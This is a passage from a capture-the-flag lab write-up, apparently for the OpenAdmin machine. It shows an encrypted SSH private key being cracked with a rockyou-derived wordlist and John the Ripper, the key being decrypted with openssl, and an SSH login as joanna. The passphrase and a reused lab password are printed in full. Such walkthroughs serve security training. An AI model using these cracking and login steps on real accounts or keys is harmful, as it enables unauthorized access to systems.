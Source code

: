 #### Decrypt Key

To decrypt the key, the first thing I tried was jimmy's password,
`n1nj4W4rri0R!`, but that fails:



    root@kali# openssl rsa -in joanna-enc -out id_rsa_openadmin_joanna
    Enter pass phrase for joanna-enc:
    unable to load Private Key
    139806906295488:error:06065064:digital envelope routines:EVP_DecryptFinal_ex:bad decrypt:../crypto/evp/evp_enc.c:570:
    139806906295488:error:0906A065:PEM routines:PEM_do_header:bad decrypt:../crypto/pem/pem_lib.c:461:



Then I figured I'd try "ninja" words from rockyou. First create the
wordlist:



    root@kali# grep -i ninja /usr/share/wordlists/rockyou.txt > rockyou_ninja



Then it breaks in `john` instantly:



    root@kali# /opt/john/run/john --wordlist=rockyou_ninja joanna-enc.john
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 3 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    bloodninjas      (joanna-enc)
    1g 0:00:00:00 DONE (2020-01-18 15:37) 50.00g/s 88250p/s 88250c/s 88250C/s 007ninjajairo..#1FLUFFYCOCKYNINJA
    Session completed



And I can write a unencrpyted copy of the key:



    root@kali# openssl rsa -in joanna-enc -out id_rsa_openadmin_joanna
    Enter pass phrase for joanna-enc:
    writing RSA key



#### SSH

I can connect with that key as joanna:



    root@kali# ssh -i ~/id_rsa_openadmin_joanna joanna@10.10.10.171
    Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
